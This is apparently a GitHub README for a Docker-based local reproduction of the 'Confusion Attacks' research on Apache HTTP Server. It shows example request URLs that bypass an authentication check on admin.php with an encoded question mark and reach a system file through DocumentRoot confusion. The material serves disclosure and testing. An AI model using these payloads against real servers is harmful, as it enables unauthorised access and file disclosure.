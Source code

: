 # orange-confusion-attacks

Repro for Confusion Attacks: Exploiting Hidden Semantic Ambiguity in Apache HTTP Server!

Discovered by https://x.com/orange_8361

https://blog.orange.tw/posts/2024-08-confusion-attacks-en/

## To build and run:

```
docker build -t my-php-website .
docker run -p 80:80 my-php-website
```

## To repro the issues

### Filename Confusion
```
http://127.0.0.1/admin.php => 401
http://127.0.0.1/admin.php%3ftest.php => 200
```

### DocumentRoot Confusion
```
http://127.0.0.1/html/usr/share/doc/hostname/copyright%3f
```

